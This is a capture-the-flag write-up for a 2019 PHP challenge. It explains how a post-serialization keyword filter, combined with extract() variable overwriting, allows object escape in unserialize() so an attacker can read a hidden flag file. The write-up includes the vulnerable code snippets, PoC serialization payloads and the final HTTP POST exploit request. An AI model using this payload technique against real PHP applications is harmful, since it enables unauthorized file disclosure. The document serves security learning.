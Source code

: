 ### References

- [安洵杯2019 官方Writeup, 2019-12-12](https://xz.aliyun.com/t/6911#toc-3)

**Tag: PHP unserialize, Object escape**

1.Click the source_code, we can see the `extract` function at a glance. Contextually, may be we can cover the `$_SESSION` variable.

There’s a hint at the bottom of the code:

```php
else if($function == 'phpinfo') {
    eval('phpinfo();'); //maybe you can find something in here!
}
```

In phpinfo, we can find the `auto_append_file` is set to `d0g3_f1ag.php`. But if we access the file directly, there is nothing, which means we need to read this file.

2.Notice that there is a file operation function:

```php
else if($function == 'show_image') {
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

The variables `$userinfo` is derived from `$_SESSION`:

```php
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
      👇
$serialize_info = filter(serialize($_SESSION));
      👇
$userinfo = unserialize($serialize_info);
```

Because the `sha1` function, we cannot read any files.

3.Let's turn attention to another function, `serialize`. Same problem as before(2016 0ctf), it's sanitized **after** being serialized.

```php
function filter($img) {
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

The `filter` function replacing some string with empty, it will destroy the serialized data structure.

normal serialize data are as follows:

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'phpinfo';
$_SESSION['img'] = base64_encode('guest_img.png');

echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"phpinfo";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

4.if we want to inject a variable, can construct the follows POC:

```php
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

Then use the filter function to replace the string with empty, we need include `";s:8:"function";s:59:"a` in quotes.

```python
>>> len('";s:8:"function";s:64:"a')
24
```

This means we need 24 characters to be replaced with empty, It could be:

```tex
flagflagflagflagflagflag
// or
phpphpphpphpphpphpphpphp
// ...
```

5.The final POC is:

```php
<?php
$_SESSION["user"] = 'phpphpphpphpphpphpphpphp';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:24:"phpphpphpphpphpphpphpphp";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

After being sanitized, the serialized data looks like:

```tex
a:3:{s:4:"user";s:24:"";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

So we successfully injected an array member, and since the beginning is `a:3`, we add the `s:4:"test";s:4:"test";`. PHP also unserialize members that do not exist in the class.

Finally, combined with variable coverage, exploit it:

```tex
POST /index.php?f=show_image HTTP/1.1
...

_SESSION[user]=phpphpphpphpphpphpphpphp&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}
```

we can get:

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

then, just read the flag:

![img1](./assets/img1.png?raw=true)

